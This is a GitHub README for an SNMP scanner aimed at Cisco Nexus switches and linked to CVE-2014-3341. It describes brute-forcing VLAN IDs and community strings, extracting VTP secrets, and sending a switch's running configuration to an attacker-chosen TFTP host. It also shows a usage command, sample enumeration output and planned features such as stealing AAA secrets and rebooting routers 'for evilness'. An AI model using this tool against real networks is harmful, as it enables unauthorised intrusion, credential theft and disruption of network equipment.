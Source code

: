 snmpvlan
========
CVE-2014-3341.

NexusTaco is a snmp scanner that can be used both for internal testing and external testing to assess Cisco Nexus switches ( 5000 and 6000 family). 

There are many snmp scanners and brute forcers this was made for just completeness.It has the following features: 

*Finds Nexus switches specifically since they seem to reply to bogus community strings 

*Bruteforces Vlan ID’s which can be used for Vlan hopping / double tagging attacks without a community incase #3 doesn’t come through (useful for internal tests) 

*Bruteforces snmp community strings To find the following: **System uptime **Configured networks (leverage more ground) 

  **Files and folders 

  **VTP secret and password ( can be cracked since its md5 and might be the telnet login password if exists or used somewhere else) 

  **Once a write community string is found the running configuration file will be send to your set ip in argv[2]. You need to configure a tftp server like solar winds’s one or something. 

TODO: 

*Still looking up sneaky OID’s that can provide usernames that are configured locally on the switch 

*If found private snmp CS check if a AAA server is running (and get the shared secret wether radius or TACACS+) 

*Show logged in users 

*Disable snmp traps 

*Check for port security if configured incase you need to spoof your mac so you don’t loose your port(internal tests). 

*Use getopt ….. 

*Router reload over snmp just for evilness. 

*Anything else I forgot.

$ python NexusTaco.py python NexusTaco.py CIDR $ python NexusTaco.py x.x.x.x/32 127.0.0.1 100 

Thanks nmap for the ip list 

Finding vulnerable switches 

x.x.x.x:Is a nexus switch, Snmp open, Has Vlans configured

Finding VlanIDs on: x.x.x.x With incorrect community string

Host: x.x.x.x has VlanID 1 Configured 

Host: x.x.x.x has VlanID 2 Configured 

Host: x.x.x.x has VlanID 3 Configured 

Host: x.x.x.x has VlanID 4 Configured 

Host: x.x.x.x has VlanID 5 Configured 

Host: x.x.x.x has VlanID 6 Configured 

Host: x.x.x.x has VlanID 7 Configured 

Host: x.x.x.x has VlanID 8 Configured 

Host: x.x.x.x has VlanID 10 Configured 

Host: x.x.x.x has VlanID 31 Configured 

Host: x.x.x.x has VlanID 32 Configured 

Host: x.x.x.x has VlanID 33 Configured 

Host: x.x.x.x has VlanID 34 Configured 

Host: x.x.x.x has VlanID 35 Configured 

Host: x.x.x.x has VlanID 40 Configured 

Host: x.x.x.x has VlanID 64 Configured 

Host: x.x.x.x has VlanID 65 Configured 

Host: x.x.x.x has VlanID 97 Configured 

Host: x.x.x.x has VlanID 98 Configured 

Host: x.x.x.x has VlanID 99 Configured 

Host: x.x.x.x has VlanID 100 Configured

.....
